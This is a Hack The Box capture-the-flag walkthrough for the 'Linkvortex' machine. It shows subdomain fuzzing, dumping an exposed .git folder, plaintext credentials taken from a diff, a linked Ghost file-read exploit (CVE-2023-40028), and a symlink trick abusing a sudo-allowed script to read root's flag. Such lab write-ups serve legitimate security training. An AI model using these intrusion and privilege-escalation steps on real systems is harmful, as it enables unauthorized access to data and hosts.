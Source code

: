 ```yaml
---
title: "Linkvortex"
date: 2023-11-06
categories: HTB
tags: ["ctf", "penetration testing", "htb", "cybersecurity", "htb writeup", "linkvortex", "htb walkthrough", "hackthebox", "writeup"]
---
```


# Linkvortex

# Credentials
| Username | Password | Hash | Source |
| -------- | -------- | ---- | ------ |
|          |          |      |        |
# Notes


# Enumeration
- Fuzzing subdomain gave `dev.linkvortex.htb`
- `git diff --staged` provides credentials.
- Logging into the admin panel with the credentials shows the version number

# Directory Fuzzing
```text
http://linkvortex.htb/ghost/assets/
http://linkvortex.htb/assets/
http://dev.linkvortex.htb/.git

ffuf -u http://linkvortex.htb -H "Host: FUZZ.linkvortex.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -ac
```

![[Pasted image 20250117125044.png]]
# Screenshots

http://dev.linkvortex.htb
![[Pasted image 20250117124820.png]]

http://linkvortex.htb/ghost/assets/
![[Pasted image 20250117124508.png]]
http://linkvortex.htb/assets/
![[Pasted image 20250117124548.png]]

![[Pasted image 20250117123835.png]]

# Git
```sh
git-dumper http://dev.linkvortex.htb/.git ~/LinkVortex/git
```

![[Pasted image 20250117125449.png]]
```text
0000000000000000000000000000000000000000 299cdb4387763f850887275a716153e84793077d root <dev@linkvortex.htb> 1730322603 +0000	clone: from https://github.com/TryGhost/Ghost.git
```

![[Pasted image 20250117134405.png]]


![[Pasted image 20250117134450.png]]

```text
const email = 'test@example.com';
-            const password = 'thisissupersafe';
+            const password = 'OctopiFociPilfer45';
```

![[Pasted image 20250117140032.png]]

> `admin@linkvortex.htb` worked for the password `OctopiFociPilfer45`

![[Pasted image 20250117140928.png]]

https://github.com/0xDTC/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028/blob/master/CVE-2023-40028

![[Pasted image 20250117141249.png]]

From git
![[Pasted image 20250117142242.png]]

![[Pasted image 20250117142322.png]]

New credentials found

```text
bob@linkvortex.htb
fibber-talented-worth
```

![[Pasted image 20250117142436.png]]



# Foothold
- CVE 2023-40028 arbitrary file read
- Looking at file output on the git command shows another credentials.
- SSH as bob user.

# Lateral Movement
- N/A

# Privilege Escalation
- Running *lse.sh* shows that the bob user can run `/opt/ghost/clean_symlink.sh` script on all png files.
- `ln -s` to create a symlink on `/root/root/txt`

![[Pasted image 20250117142920.png]]
![[Pasted image 20250117143148.png]]

# clean_symlink.sh
![[Pasted image 20250117143436.png]]

`ln -s ` : Creating a symlink 

```sh
bob@linkvortex:~$ ln -s /root/root.txt abc.txt
bob@linkvortex:~$ ln -s /home/bob/abc.txt abc.png
bob@linkvortex:~$ sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh /home/bob/hyh.png
```

```sh
sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh /home/bob/abc.png
```

![[Pasted image 20250117144045.png]]
